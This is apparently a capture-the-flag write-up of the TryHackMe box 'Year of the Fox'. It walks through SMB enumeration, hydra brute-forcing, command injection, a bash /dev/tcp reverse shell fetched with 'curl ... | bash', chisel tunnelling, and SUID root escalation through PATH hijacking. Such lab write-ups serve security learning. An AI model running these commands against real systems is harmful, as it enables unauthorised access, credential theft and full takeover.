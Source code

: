 ```yaml
---
title: Year of the Fox
date: 2023-10-09 21:24:00 +0200
categories: [Boxes, TryHackMe]
tags: [smb, hydra, command-injection, chisel, path-hijacking]
img_path: /assets/images/YearOfTheFox
math: true
---
```



To solve this TryHackMe machine, we will to enumerate the SMB service to get valid usernames. After that, we will bruteforce some creds and use then to achieve RCE in a search functionality. We'll bruteforce some passwords once again and abuse a sudoers privilege by using path hijacking. Let's dive in!


-------------------------

**Note**: while I was attacking the machine, it got restarted and I got a new IP address for the machine. That is why there are different IPs across the file. I am sorry about that!

------------------------------


## Recognisement
First things first: let's check if we have connectivity to the victim machine, by sending an ICMP trace:

![ping command](ping.png)

And yep, we sent a packet and received it back. Besides, we can already know which OS the machine is running, based on the TTL. As the TTL's value is 63, it is quite likely for the OS to be a Linux distribution.

Now, let's scan its ports, to see which one are opened using TCP protocol:

![nmap first scan](nmap-open-ports.png)

So ports **80**, **139** and **445** are open. Basically, an HTTP service and SMB service. Let's make a more exhaustive scan to these specific ports. To do so, we can run nmap with the options:

- -p80,139,445 $$\rightarrow$$ To run the scan only on these ports
- -sC $$\rightarrow$$ To run some basic scripts that nmap stores (programmed in Lua)
- -sV $$\rightarrow$$ To try getting the service and version of the service running in the ports
- -oN targeted $$\rightarrow$$ To save the output in a file named targeted

And this is the output:

![nmap exhaustive scan](nmap-scan.png)

Nothing really interesting, apart from a possible domain name: **year-of-the-fox.lan** (which we are going to add to our `/etc/hosts` file) and an 401 error in the webpage.

We can further enumerate the SMB service. To do so, we can use the tool **enum4linux**:

```bash
enum4linux 10.10.253.99
```

the only important output of this is:

![users](e4l-users.png)

which tell us that there exist two users: **fox** and **rascal** and

![folders](e4l-folders.png)

which tell us that there is a shared folder call **yotf**, but we can't list its content, so we'll come back to the SMB service once we have some creds :)

Let's enumerate now the HTTP service. First of all, we can run some tools like **whatweb** or **wig**, in order to get some useful information about the webpage: CMS it is using, as well as programming languages, etc.

![whatweb report](whatweb.png)

**whatweb** only tells us what we knew from the nmap scan.

Now, we access the webpage in our browser, and, as we expected, a popup asking us for credentials shows. We try some default creds but with no success. We can try to send a POST request to the main webpage to see if somethings changes, but again, there is nothing important. 


## Shell as www-data

We can now try to bruteforce the passwords for the users fox and rascal. Maybe we are lucky. To do so, we use **hydra**. First, we write the two users we have in a file called `users.txt`, and we can execute the following command:

```bash
hydra -u -L users.txt -P /usr/share/wordlists/rockyou.txt http-get://10.10.253.99
```

And...yes!! After a couple of minutes we found rascal's password:

![rascal's password](hydra.png)

We log in as rascal, and we are showed this search pannel:

![rascal search site](rascal-search-system.png)

This page is making POST requests to the endpoint **/assets/php/search.php**. Apparently, there are some files named "creds2.txt","fox.txt" and "important-data.txt". However, we do not know where those are located. There seems to be kind of a filter in the webpage frontend, which doesn't let us write some special characters as '"'. To solve this problem, we can send the request to **BurpSuite**, and we may try to inject a command like this:

![command injection](command-injection.png)

and if we send that request and we listen for ICMP packets with **tcpdump**, we can see how we receive the ICMP packet:

![rce-prove](rce.png)

So it seems that we have RCE! Let's try to make a reverse shell. To do so, we are going to write a reverse shell in a file named `index.html` with this content:

```bash
#!/bin/bash 

bash -i >& /dev/tcp/10.8.160.84/443 0>&1
```

and we are going to set an HTTP server that hosts that file, and while being listening in the port 443, we are going to execute the command `curl http://<ATTACKER_IP> | bash` in the victim machine:

![gaining access](access.png)

and we are in as the user **www-data**!!

First things first, let's upgrade our shell to make it full interactive. To do so, we execute `script -qc /bin/bash /dev/null`, followed by `Ctrl+Z`. Then we type `stty raw -echo; fg` and `reset xterm`. After that, we are going to type `export TERM=xterm-256color`, `source /etc/skel/.bashrc` and `export SHELL=bash`, to make everything interactive and full of colours :)


## Shell as fox

In the directory `/var/www/files` we can see the files that were prompted in the web. These are the contents:

![files content](files-content.png)

The content of "creds2.txt" seems to be a base64 string, but if we try to decode it, nothing interesting comes up.

If we execute `netstat -nat`, we can see that the port 22 (SSH) is open:

![ssh-open](ssh-open.png)

If we try to execute the command **ssh** as the user www-data, we don't have permission to do that. To solve this problem, we can try to make my port 2222 (for example) to be the port 22 of the victim machine. To do that, we can use **chisel**. Out attacker machine will be the server and the victim machine will be the client. In the attaacker machine we execute the command:

```bash
./chisel server --reverse -p 1234
```

and in the victim machine:

```bash
./chisel client <ATTACKER_IP>:1234 R:2222:127.0.0.1:22
```

and after that, we can use our port 2222 as the victim machine's port 22, and we can try to bruteforce the password for the user **fox**. We can use **hydra** again:

```bash
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://<ATTACKER_IP> -s 2222
```

and we are lucky!!

![ssh hydra brute](ssh-hydra.png)

Let's connect to ssh as the user fox then:

![fox ssh](fox-user.png)

## Privilege escalation

We can check for sudo privileges, and we got one:

![sudo -l](sudol.png)

A quick search in Google tells us that we can hijack the path of the **poweroff** binary. We will create a binary called poweroff in the `/tmp` directory, which contains the code  `chmod u+s /bin/bash`, so that we can gain access as root. 

```bash
echo 'chmod u+s /bin/bash' > /tmp/poweroff
```

Now, we have to make the `/tmp` directory the first one in the PATH variable:

```bash
export PATH=/tmp:$PATH
```

and give the file executable permissions: 

```bash
chmod +x /tmp/poweroff
```

And then we execute

```bash
sudo /usr/sbin/shutdown
```

and...

![root access](root.png)


This is it! Pwned :)

